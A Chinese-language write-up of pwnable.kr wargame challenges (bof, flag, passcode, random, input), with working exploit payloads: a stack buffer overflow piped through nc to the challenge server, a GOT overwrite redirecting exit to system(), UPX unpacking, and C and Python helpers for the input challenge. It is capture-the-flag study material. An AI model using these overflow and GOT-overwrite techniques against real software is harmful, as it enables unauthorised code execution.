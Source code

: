 # bof
```
import struct
padding = 'A'*52 #这里不是算的
key_addr = struct.pack("I", 0xcafebabe)
print padding + key_addr
```
重点是确定填充的字节，由func中<br>
0x56555649 <+29>:   lea    eax,[ebp-0x2c]<br>
2C 是 44 填充44个A 再加上addr正好覆盖ebp这个地址，而<br>
0x56555654 <+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe<br>
所以只有再加8就正好覆盖了比较的地址，即key的位置。<br>
知道这个之后就可以利用python加管道进行pwn<br>
(python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000<br>

# flag
IDA打开之后就看到upx的字符，猜测是upx壳，linux下看了一下，apt安装下upx然后就可以解壳了<br>

# passcode

这题完全不知道怎么做，然后看国外大牛的wp。理解了半天，没懂。<br>
然后自己gdb调试，，忽然想起来，在调用welcome之后和调用login之后，<br>
esp的地址一样，这样因为函数开始的时候都有mov    ebp,esp。<br>
所以ebp(ebp在整个函数初始化指针之后是不会再改变的)就是可以认为是一样的，然后welcome调用结束后的数据并没有清楚，而是留在栈上，栈调用welcome结束后仅仅是把指针调整了，并没有清除数据，所以这里就是可以利用的地方。<br>
然后这个还有个条件，就是scanf("%d", passcode1);IDA逆向出来是__isoc99_scanf("%d");这样程序就会直接读取对应栈上的值<br>
0x70-0x10 = 0x60 = 96。只要有96个就能覆盖passcode1的值<br>
```
welcome:
0x0804862f <+38>:   lea    edx,[ebp-0x70]
0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:    mov    DWORD PTR [esp],eax
0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
login:
0x0804857c <+24>:   mov    edx,DWORD PTR [ebp-0x10]
```
之后就是直接的plt利用了，不过这个也是理解了不少时间，实际上就是call exit的时候，
实际上是先执行jmp _exit (_exit就是实际上exit的地址，而采用全局偏移表的方式存储，只要把这个地方改掉就行了。)
```
0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
0x080485de <+122>:   call   0x848450 <puts@plt>
0x080485e3 <+127>:   mov    DW0ORD PTR [esp],0x80487af
0x080485ea <+134>:   call   0x8048460 <system@plt>
```
system("")对应的地址：0x080485d7 = 134514135<br>
0x080485e3<br>
偏移表中exit对应的地址804a018<br>
于是就可以'A'*96 + '\x18\xa0\x04\x08' + '134514135\n'<br>

# random
开始看的rand没有思路，然而，，，如此简单。<br>
rand需要先srand初始化化下时间种子，否则rand的返回值一直固定。然后利用异或的性质，ok<br>

# input
```
./input `python -c "print 'A '*47 + '\x00' + '\x20\x0a\x0d'"`
```
发现不行，截取字符串的时候没有把\x00当成一个整体。<br>
然后只能又是找wp，发现都是用c来写的，定义个数组orz<br>
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
int main()
{
    char* padding[101] = {[0 ... 99] = "A"};//0~99全赋值为"A"
    padding['A'] = "\x00";
    padding['B'] = "\x20\x0a\x0d";
    padding['C'] = "31337";
    printf("Start\n");
    execve("/home/input/input",padding,NULL);//这里/home/input/input写成了home/input/input
    return 0;
}
```
第一个直接通过传参数就能通过。<br>
第二个就有点头疼了，查了一下fd句柄的说明<br>
0:stdin标准输入<br>
1:stdout<br>
2:stderr<br>
orz。然后又看wp，有一种是利用dup2来改变fd句柄，通过管道进行赋值<br>
```
    if(fork() == 0)
    {
        printf("Parent Processing is here...\n");
        dup2(pipe1[0],0);
        close(pipe1[1]);
        dup2(pipe2[0],2);
        close(pipe2[1]);
        execv("/home/input/input", padding, envp);
    }
    else
    {
        printf("Son processing is here...\n");
        write(pipe1[1], "\x00\x0a\x00\xff", 4);
        write(pipe2[1], "\x00\x0a\x02\xff", 4);
    }
```
这样前三个就over了<br>
然后第四个是文件读写，这个还是很简单的，查一下fopen和fwrite就好了<br>
最后一个是socket，之前搞arm的时候看了一点然而。。。<br>
```
	int sd, cd;
	struct sockaddr_in saddr, caddr;
	sd = socket(AF_INET, SOCK_STREAM, 0);
    //建立socket
	if(sd == -1){
		printf("socket error, tell admin\n");
		return 0;
	}
	saddr.sin_family = AF_INET;
	saddr.sin_addr.s_addr = INADDR_ANY;
	saddr.sin_port = htons( atoi(argv['C']) );
    //建立bind连接，端口是argv['C'],在前面设置为padding['C'] = "9000";
	if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
		printf("bind error, use another port\n");
    		return 1;
	}
	listen(sd, 1);//开启监听
	int c = sizeof(struct sockaddr_in);
	cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
	if(cd < 0){
		printf("accept error, tell admin\n");
		return 0;
	}
    //接收长度应该为4
	if( recv(cd, buf, 4, 0) != 4 ) return 0;
	if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
	printf("Stage 5 clear!\n");
```
然后方法其实不是在c里面写个socket通信，直接python<br>
python -c "print '\xde\xad\xbe\xef'“ | nc 127.0.0.1 9000<br>
Tips: 本地ip地址是127.0.0.1<br>
9000好像不行，换一个。88888..试了好久，网络各种卡。。<br>
算了，还是写个socket吧。。<br>
```
int sd,cd;
struct sockaddr_in saddr, caddr;
sleep(5);
printf("Connecting\n");
sd = socket(AF_INET, SOCK_STREAM, 0);
if(sd == -1)
{
    printf("socket error~\n");
    return 0;
}
saddr.sin_family = AF_INET;
saddr.sin_addr.s_addr = INADDR_ANY;
saddr.sin_port = htons(atoi(padding['C']));
connect(sd, (struct sockaddr *)&saddr, sizeof(saddr));
send(sd, "\xde\xad\xbe\xef", 4, 0);
close(sd);
```
通过~<br>

to be continued
